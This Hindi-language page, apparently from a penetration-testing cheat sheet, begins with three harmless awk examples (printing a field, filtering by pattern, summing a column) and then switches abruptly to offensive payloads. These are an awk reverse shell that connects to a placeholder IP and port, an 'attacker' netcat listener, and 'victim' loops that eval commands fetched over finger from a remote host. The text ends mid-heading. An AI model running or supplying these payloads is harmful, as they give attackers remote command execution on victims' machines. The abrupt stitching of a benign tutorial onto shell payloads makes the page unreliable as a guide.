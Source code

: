 Awk एक शेल स्क्रिप्टिंग भाषा है जिसे लिनक्स पर उपयोग किया जाता है। यह एक पावरफुल टूल है जो टेक्स्ट डेटा को प्रोसेस करने और मैनिपुलेट करने की क्षमता प्रदान करता है। Awk का उपयोग डेटा फ़ाइलों को खोजने, पैटर्न मिलान करने, डेटा को फ़ॉर्मेट करने, रिपोर्ट बनाने और अन्य कार्यों के लिए किया जाता है।

Awk का उपयोग करने के लिए, आपको एक या एक से अधिक फ़ाइलों को देखने के लिए एक पैटर्न और एक एक्शन निर्दिष्ट करना होगा। पैटर्न फ़ाइल के लिए एक मिलान करने वाली शर्त होती है, जबकि एक्शन उस फ़ाइल पर कार्रवाई का निर्देश देता है। Awk फ़ाइल को पढ़ता है, प्रत्येक पंक्ति को पैटर्न के साथ मिलान करता है और उस पंक्ति के लिए निर्दिष्ट एक्शन को चलाता है।

यहां कुछ उदाहरण हैं जो आपको Awk का उपयोग करने के तरीके को समझने में मदद करेंगे:

### उदाहरण 1: फ़ाइल से डेटा पढ़ें

```bash
awk '{print $1}' file.txt
```

इस उदाहरण में, हम फ़ाइल `file.txt` को पढ़ रहे हैं और प्रत्येक पंक्ति के पहले शब्द को प्रिंट कर रहे हैं।

### उदाहरण 2: पैटर्न के आधार पर फ़ाइल फ़िल्टर करें

```bash
awk '/pattern/' file.txt
```

इस उदाहरण में, हम फ़ाइल `file.txt` को पढ़ रहे हैं और प्रत्येक पंक्ति को पैटर्न के साथ मिलान कर रहे हैं। केवल मिलान होने वाली पंक्तियों को प्रिंट किया जाएगा।

### उदाहरण 3: फ़ाइल में गणना करें

```bash
awk '{sum += $1} END {print sum}' file.txt
```

इस उदाहरण में, हम फ़ाइल `file.txt` को पढ़ रहे हैं और प्रत्येक पंक्ति के पहले शब्द को जोड़कर गणना कर रहे हैं। अंत में, हम गणना का परिणाम प्रिंट कर रहे हैं।

Awk एक शक्तिशाली टूल है जो टेक्स्ट डेटा को प्रोसेस करने के लिए उपयोगी हो सकता है। इसके विभिन्न फ़ंक्शन और संदर्भों का उपयोग करके, आप अपनी आवश्यकताओं के अनुसार डेटा को मैनिपुलेट कर सकते हैं।
```bash
awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
आक्रमणकारी
```bash
while true; do nc -l 79; done
```
इस कमांड को भेजने के लिए इसे लिखें, एंटर दबाएं और CTRL+D दबाएं (STDIN को रोकने के लिए)

**पीड़ित**
```bash
export X=Connected; while true; do X=`eval $(finger "$X"@<IP> 2> /dev/null')`; sleep 1; done

export X=Connected; while true; do X=`eval $(finger "$X"@<IP> 2> /dev/null | grep '!'|sed 's/^!//')`; sleep 1; done
```
## गॉक
